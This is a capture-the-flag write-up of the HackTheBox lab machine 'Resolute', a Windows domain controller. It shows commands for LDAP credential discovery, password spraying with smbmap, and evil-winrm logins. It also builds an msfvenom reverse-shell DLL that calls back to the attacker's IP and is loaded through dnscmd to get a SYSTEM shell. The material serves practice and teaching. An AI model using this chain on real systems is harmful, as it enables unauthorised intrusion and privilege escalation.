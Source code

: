 ```yaml
---
title: Resolute
tags: windows
---
```


![image](assets/84849979-87b02280-b024-11ea-81b2-f2a9d8953592.png)

## Overview

Resolute is a Windows Server 2016 box that exposed credentials via ldap which was anonymously accessible. Credentials were reused with other accounts which allowed for logon to the box as melanie via winrm. I came across a PSTranscript file where I found credentials for an account named ryan which was used to log in to the box again with additional privileges. Bloodhound was used to determine that the user was a member of the DnsAdmins group. Being part of this group provided the ability to abuse the dns service by adding a malicious dll that created a reverse shell and provided a shell as 'nt authority\system'

## Enumeration

**Software**

* Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)

**Port Scan**

```
nmap -vv -Pn -sT -A -p- 10.10.10.169 -oN /mnt/data/boxes/resolute/_full_tcp_nmap.txt
```

* 53/tcp - dns
* 88/tcp - Microsoft Windows Kerberos (server time: 2020-03-17 14:51:48Z)
* 135/tcp - Microsoft Windows RPC
* 139/tcp - Microsoft Windows netbios-ssn
* 389/tcp - Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
* 389/udp - Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
* 445/tcp - Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
* 464/tcp - kpasswd5? 
* 593/tcp - Microsoft Windows RPC over HTTP 1.0
* 636/tcp  - tcpwrapped
* 3268/tcp - Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
* 3269/tcp - tcpwrapped
* 5985/tcp - Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
* 9389/tcp - .NET Message Framing
* 47001/tcp - Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
* 49664/tcp open  Microsoft Windows RPC
* 49665/tcp open - Microsoft Windows RPC
* 49666/tcp open - Microsoft Windows RPC
* 49667/tcp open - Microsoft Windows RPC
* 49671/tcp open - Microsoft Windows RPC
* 49676/tcp open - Microsoft Windows RPC over HTTP 1.0
* 49677/tcp open - Microsoft Windows RPC
* 49684/tcp open - Microsoft Windows RPC
* 49712/tcp open - Microsoft Windows RPC
* 61319/udp open - tcpwrapped
* 64614/tcp open - unknown

## Steps (user)

I started off by trying a dns zone transfer but was unsuccessful. I also tried browsing the smb shares but was not able gain any useful information. 

Next I moved onto ldap, I used ldapsearch to query all objects and found the text 'Account created. Password set to Welcome123!' in the description field for Marko Novak's account.

```
ldapsearch -x -b "dc=megabank,dc=local" -h 10.10.10.169 
```

![image](assets/84969497-d32b0500-b0e6-11ea-99ea-ae53a531b683.png)

I ran the command again selecting only samaccountname and saved the results to a file called users.txt. I had to manually pair down the list to only include usernames.

```
ldapsearch -x -b "dc=megabank,dc=local" -h 10.10.10.169 | grep -i samaccountname | awk '{print $2}' > users.txt
```

![image](assets/84970068-f86c4300-b0e7-11ea-8ec7-5b9f139138b1.png)

I could have used something like Hydra but instead I just created a quick and dirty bash script. It basically tries to authenticate to the server using smbmap, trying each username in users.txt with the Welcome123! password. 

```
for i in `cat users.txt`; do echo "trying user: $i"; smbmap -H 10.10.10.169 -u $i -p 'Welcome123!'; done
```

Once the username melanie was tried, smbmap returned some data indicating that authentication was successful.

![image](assets/84970555-f060d300-b0e8-11ea-99ad-f85c1b8ccb44.png)

I wasn't able to access any of the smb shares as user melanie but I was able to connect via evil-winrm with melanie:Welcome123!

```
evil-winrm -i 10.10.10.169 -u melanie -p Welcome123!
```

![image](assets/84970709-3c137c80-b0e9-11ea-982e-d9680a1da2ad.png)

While enumeating the file system I came across an unusual folder on the root of C:\ called PSTranscripts.

![image](assets/84971270-5732bc00-b0ea-11ea-8f6a-dcc56bae0324.png)

In the file C:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt I found what looked like credentials **ryan:Serv3r4Admin4cc123!**

![image](assets/84971445-c6a8ab80-b0ea-11ea-8cc9-545f9784b927.png)

I logged on as user ryan with the new credentials via evil-winrm. In Ryan's desktop folder I found a file called note.txt with the text "Email to team: - due to change freeze, any system changes (apart from those to the administrator account) will be automatically reverted within 1 minute".

![image](assets/84971545-ff488500-b0ea-11ea-9d4b-230db5edff45.png)

## Steps (root/system)

I used a tool called Bloodhound to get some additional information. First I needed to get [SharpHound](https://github.com/BloodHoundAD/BloodHound/tree/master/Ingestors),a collector for Bloodhound, on the system to collect the data that would later be imported into Bloodhound. While logged in as the user ryan I transferred SharpHound.exe to the host via smb. I set up an smb server using imapcket's smbserver.py

> Bloodhound uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment. Attackers can use BloodHound to easily identify highly complex attack paths that would otherwise be impossible to quickly identify. Defenders can use BloodHound to identify and eliminate those same attack paths. Both blue and red teams can use BloodHound to easily gain a deeper understanding of privilege relationships in an Active Directory environment.

```
sudo ~/tools/impacket/examples/smbserver.py share `pwd`
```

Using the copy command, SharpHound.exe was copied to the target

```
copy \\10.10.14.21\share\SharpHound.exe
```

And ran 'sharphound -c all' to collect all information

![image](assets/84972536-0bcddd00-b0ed-11ea-96e7-ac554a7a2512.png)

The zip file was copied back to my machine

```
copy 20200617200004_BloodHound.zip \\10.10.14.21\share\
```

I started neo4j (neo4j console) and then bloodhound

![image](assets/84972782-96164100-b0ed-11ea-9d08-c9020322e5d9.png)

I then clicked the upload button and selected the zip file. I ran a few of the built in queries to see what it would tell me. It showed that james is a member of contractors which is a member of dnsadmins. I wasn't immediately aware of any vulnerabilities associated with being a member of dnsadmins, however, the name of the box is Resolute so I took that as a hint and did some research.

![image](assets/84973387-f0fc6800-b0ee-11ea-889b-2e88add90a30.png)

![image](assets/84973296-c6aaaa80-b0ee-11ea-9f74-7485a53c7731.png)

I found an article called [DNS Admin Privesc in Active Directory (AD)(Windows)](https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2) which details a privilege escalation method that involved creating a dll that contains reverse tcp code that can then be injected into the dns.exe process.

The dll was created with msfvenom by specifying the usual reverse shell parameters and formatting it (-f) as a dll.

```
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.21 LPORT=4200 -f dll > pe.dll
```

![image](assets/84973552-5c463a00-b0ef-11ea-8e81-e0b0e189c803.png)

I created a share using impacket's smbserver.py

```
sudo ~/tools/impacket/examples/smbserver.py share `pwd`
```

Next I started a netcat listener (nc -lvnp 4200) and on the box and ran the [dnccmd](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd) command specifying /config, /serverlevelplugin, and the unc path to the dll file.

* /config - Changes values in the registry for the DNS server and individual zones. This command also modifies the configuration of the specified server. Accepts server-level and zone-level settings.
* /serverlevelplugindll - Specifies the path of a custom plug-in. 

```
dnscmd 10.10.10.169 /config /serverlevelplugindll \\10.10.14.21\share\pe.dll
```

Lastly I restarted the dns service

```
cmd /c "sc stop dns"
cmd /c "sc start dns"
```

And received a callback and shell as 'nt authority/system'

![image](assets/84973843-0faf2e80-b0f0-11ea-8642-5a1971edea71.png)
